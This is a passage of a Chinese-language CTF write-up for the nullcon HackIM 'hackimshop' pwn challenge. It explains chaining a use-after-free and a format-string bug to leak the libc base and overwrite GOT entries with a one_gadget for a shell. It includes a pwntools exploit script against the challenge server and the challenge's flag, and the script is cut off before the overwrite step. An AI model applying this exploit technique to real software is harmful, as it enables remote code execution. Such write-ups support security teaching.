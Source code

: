 ```
➜  hackimshop strings libc.so.6 | grep GNU
GNU C Library (Ubuntu GLIBC 2.27-3ubuntu1) stable release version 2.27.
Compiled by GNU CC version 7.3.0.
```

接下来就是怎么通过UAF+fmt+libcbase来getshell的问题了，说到UAF，我就想到有`house of spirit`,但用hos还需要满足一些条件，这时巨强无比的格式化字符串就出场了，任意地址写可不是开玩笑的，通过组合这些漏洞在got表里建立一个fakebook然后通过uaf去free掉，然后再从tcache中new回来这个chunk后往里写one_gadget，就成功的把got表中的函数改成onegadget，然后触发覆盖的这些函数就能getshell。

这里附上EXP

```
#! /usr/bin/env python
# -*- coding: utf-8 -*-
# Distributed under terms of the MIT license.
# flag = hackim19`{`h0p3_7ha7_Uaf_4nd_f0rm4ts_w3r3_fun_4_you`}`
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
# n = process('./challenge')
n = remote('pwn.ctf.nullcon.net',4002)
elf = ELF('./challenge')
# libc = elf.libc
libc = ELF('./libc.so.6')

def choice(idx):
    n.recvuntil('&gt; ')
    n.sendline(str(idx))

def add(size,content,price):
    choice(1)
    n.recvuntil('length: ')
    n.sendline(str(size))
    n.recvuntil('name: ')
    n.sendline(content)
    n.recvuntil('price: ')
    n.sendline(str(price))

def free(idx):
    choice(2)
    n.recvuntil('index: ')
    n.sendline(str(idx))

def show():
    choice(3)

puts_got = elf.got['puts']
fc = elf.got['__stack_chk_fail']
cp_stmt = 0x6020a0

add(0x10,'0000',0x10)
add(0x10,'1111',0x10)
free(1)
free(0)
payload = p64(puts_got)+p64(0)*2+"%7$s"
add(0x38,payload,0x10)
show()
n.recvuntil('price": 0,n')
n.recvuntil('rights": "')
libc_base = u64(n.recv(6)+'x00x00') - libc.sym['puts']
print "libc_base:",hex(libc_base)


one_gadget = libc_base + 0x4f322
add(0x10,'aaaa',0x10)
```